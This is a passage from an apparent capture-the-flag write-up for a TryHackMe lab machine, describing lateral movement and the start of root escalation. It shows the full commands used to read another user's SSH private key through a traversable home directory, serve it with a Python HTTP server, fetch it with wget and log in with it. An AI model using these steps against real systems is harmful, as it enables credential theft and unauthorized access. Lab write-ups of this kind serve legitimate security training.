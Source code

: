 ### escalating to alice

I tried listing the permissions of the directories in `/home`, turned out we have the execution bit set on `/home/alice`. again, this means we might not list content of that directory, but we can read files as long as we know their names, and what well-known file might be interesting for us there ? ssh private keys!

```bash
humptydumpty@looking-glass:/home/tweedledum$ cd /home
humptydumpty@looking-glass:/home$ ls -lh
total 24K
drwx--x--x 6 alice        alice        4.0K Jul  3  2020 alice
drwx------ 3 humptydumpty humptydumpty 4.0K Jan  9 18:59 humptydumpty
drwxrwxrwx 5 jabberwock   jabberwock   4.0K Jul  3  2020 jabberwock
drwx------ 5 tryhackme    tryhackme    4.0K Jul  3  2020 tryhackme
drwx------ 3 tweedledee   tweedledee   4.0K Jul  3  2020 tweedledee
drwx------ 2 tweedledum   tweedledum   4.0K Jul  3  2020 tweedledum
humptydumpty@looking-glass:/home$ cd alice
humptydumpty@looking-glass:/home/alice$ ls
ls: cannot open directory '.': Permission denied
humptydumpty@looking-glass:/home/alice$ cd .ssh
humptydumpty@looking-glass:/home/alice/.ssh$ ls -lh id_rsa
-rw------- 1 humptydumpty humptydumpty 1.7K Jul  3  2020 id_rsa
humptydumpty@looking-glass:/home/alice/.ssh$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

I downloaded the file on my box and successfully logged in as alice!

```bash
$ wget ctf.thm:8080/id_rsa
--2021-01-09 20:01:16--  http://ctf.thm:8080/id_rsa
Resolving ctf.thm (ctf.thm)... 10.10.247.107
Connecting to ctf.thm (ctf.thm)|10.10.247.107|:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1679 (1.6K) [application/octet-stream]
Saving to: ‘id_rsa’

100%[========================================================================>] 1,679       --.-K/s   in 0.004s  

2021-01-09 20:01:17 (429 KB/s) - ‘id_rsa’ saved [1679/1679]

$ chmod 600 id_rsa
$ ssh alice@ctf.thm -i id_rsa 
Last login: Fri Jul  3 02:42:13 2020 from 192.168.170.1
alice@looking-glass:~$ 
```

### gaining root priveleges

after some digging aound, I found that `alice` can execute a `/bin/bash` as `root` with no password on a host called `ssalg-gnikool`
so I that's what I did
